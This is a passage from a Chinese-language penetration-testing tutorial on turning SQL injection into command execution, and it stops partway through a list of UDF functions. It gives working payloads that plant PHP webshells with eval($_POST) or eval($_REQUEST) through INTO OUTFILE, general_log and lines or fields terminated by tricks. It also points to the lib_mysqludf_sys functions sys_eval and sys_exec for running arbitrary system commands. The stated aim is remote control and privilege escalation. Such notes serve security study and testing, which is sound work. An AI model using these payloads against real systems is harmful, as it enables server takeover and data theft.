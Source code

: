 ## [](#12-sql-%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)12 SQL 注入命令执行

### [](#121-sql-%E6%B3%A8%E5%85%A5%E5%86%99%E6%96%87%E4%BB%B6)12.1 SQL 注入写文件

通过 SQL 注入，直接写入 webshell 文件到服务器，通过 GET 方法或者 POST 方法提交并执行外部指令，为后续进一步远程控制，提权，创造条件。

注意

需要 mysql 用户在写入文件夹下有写入权限，即 `secure_file_priv` 为不为空。

技巧

当`secure_file_priv` 不为空时，可以使用 general\_log 写文件：

`set global general_log=on;`

`set global general_log_file='C:/phpStudy/WWW/789.php';`

`select '<?php eval($_POST['a']) ?>';`

#### [](#1211-union-select-%E5%90%8E%E5%86%99%E5%85%A5)12.1.1 union select 后写入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select username, password from users where id="1" union select null,'<?php @eval($_REQUEST[1]);?>' into outfile '/var/www/html/cmd.php'<br>``` |

**注意**：在 windows 下的分隔符为 /（斜杠）。

#### [](#1212-%E8%A1%8C%E5%88%86%E9%9A%94%E7%AC%A6%E5%86%99%E5%85%A5)12.1.2 行分隔符写入

通过 select 语句查询的内容写入文件，也就是 into outfile‘C:/wamp64/www/work/webshell.php’这样写的原因，然后利用 lines terminated by 语句拼接 webshell 的内容。

lines terminated by 可以理解为「以每行终止的位置添加 xx 内容」。

利用 lines starting by 语句拼接 webshell 的内容。lines starting by 可以理解为「以每行开始的位置添加 xx 内容」。

利用 fields terminated by 语句拼接 webshell 的内容。fields terminated by 可以理解为「以每个字段的位置添加 xx 内容」。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>// lines terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';<br><br>// lines starting by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';<br><br>// fields terminated by 写入<br>?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';<br><br>// COLUMNS terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' COLUMNS terminated by '<?php phpinfo() ?>';<br>``` |

### [](#122-%E7%94%A8%E6%88%B7%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0---udf)12.2 用户自定义函数 - UDF

还可以利用「用户自定义函数」的方式，即 User Defined Functions(UDF) 来执行命令。通过 lib\_mysqludf\_sys 提供的函数可以执行**系统命令**关键语句：

-   **sys\_eval()**，执行任意命令，并将输出返回
    
-   sys\_exec()，执行任意命令，并将返回码返回
    
-   sys\_get()，获取一个环节变量
    